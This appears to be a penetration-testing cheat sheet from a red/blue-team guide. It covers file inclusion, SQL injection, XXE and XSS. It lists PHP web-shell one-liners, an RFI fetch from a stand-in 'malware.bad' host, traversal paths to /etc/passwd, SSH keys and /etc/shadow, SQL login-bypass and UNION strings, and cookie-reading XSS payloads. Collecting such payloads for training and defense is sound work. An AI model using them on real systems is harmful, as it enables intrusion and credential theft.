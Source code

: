 # TABLE OF CONTENTS
1. [GENERAL](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#general)
2. [FILE INCLUSION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#file-inclusion)
3. [SQL](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#sql)
4. [XML](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#xml)
5. [XSS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#xss)

# GENERAL
## Search Exploits
- google --> <service_name> [version] exploit
- shodan --> https://exploits.shodan.io/
- searchsploit (= ExploitDB lookup) --> CLI Example: `searchsploit apache mod_ssl`
- msf: `search platform:windows port:135 target:XP type:exploit`

<br />

# File Inclusion
## Remote
- **Attacker uploads file from external source**
- *PHP functions in scope: **allow_url_include** and **allow_url_fopen**

### Examples
1. Inject remote file from own server: https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script: https://example.com/login.php?user=malicious.php

### Code to check while enumerating RFI
- `<?php phpinfo() ?>`
- `<?php system("whoami"); ?>`
- ```<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>```
- ```<?php $c=$_GET[‘c’]; echo `$c`; ?>```
- `<?php passthru($_GET['cmd']); ?>`
- `<?php echo shell_exec("whoami");?>` For shell_exec to output the result you need to echo it

## Local 
- **Attacker retrieves file that already exists on hosting server**
- **If LFI is existing, you can see the source code interpreted by the server**

### Tips
1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - http://example.com/index.html?page=../../../../../var/www/html/restricted/.htaccess%00
   - http://example.com/index.html?page=../../../../../var/www/html/restricted/.htpasswd%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)

### Files to check while enumerating LFI
- `../../../../../../../etc/passwd`
- `../../../../../../../home/<users>/.ssh/authorized_keys`
- `../../../../../../../home/<users>/.ssh/bash_history`
- To get the username of who we’re running as: `../../../../../../../proc/self/environ`
- To see what binary is running this service: `../../../../../../../proc/self/cmdline`
- index.php / config.php / settings.php / php.ini

##  Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly

<br />

# SQL
**>> Full Cheat Sheet: [www.netsparker.com/blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)**

## SQL Types
1. MySQL
2. SQL Server
3. PostgreSQL
4. Oracle
5. Others

## SQL Injection: Quick and Dirty
```
admin' --
admin' #
admin'/*
' or 1='1
' or 1=1--
' or 1=1#
' or 1=1/*
') or ‘1’ =’1--
') or (‘1’=’1--
' || 1=’1
```

## SQL Attack Patterns
#### Comment
```
1) --
2) /*  */
3) #
```

#### Combine Queries 
- `SELECT * FROM xyz ; SELECT * FROM abc`

#### UNION injections
- You can poison query to return records from different tables
- `SELECT username, admin FROM members UNION SELECT password, admin FROM members`


## Tools
#### mssqlclient.py
- `python3 mssqlclient.py USER@10.10.10.27 -windows-auth`
- `SELECT IS_SRVROLEMEMBER('sysadmin')`
   - Output "1" = yes

#### sqlmap
- Check out: [3_Exploitation/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md)

<br />

# XML
## Missing Encryption/Input Validation
- XML data vulnerable to spoofing /request forgery / code injection

## XML Bomb
- Entities that expand to exponential size, consuming memory (DoS!)

## XML External Entity (XXE)
- Embeds a request for a local resource
- File Inclusion within XML
  - `<!ENTITY runcode SYSTEM "/etc/shadow">`

<br />

# XSS
## XSS Types

*Attacker embeds malicious scripting commands on a trusted website*

1. **Reflected XSS**
- non-persistent effect activated by a victim clicking a link
- Example: `https://example.com/search?q=<script%20type='application/js'>alert('xss')</script>`
2. **Stored/Persistent XSS**
- Attempts to store data persistently on the web server
3. **DOM-based XSS**
- Attempt to exploit the victim's web browser
- Example: `https://example.com/index.html#default=<script>alert(document.cookie)</script>`

## Attack Patterns
```
<script>alert("XSS LEAK")</script>
<script>alert(document.cookie)</script>
<img src=x onerror=alert(2)>
```
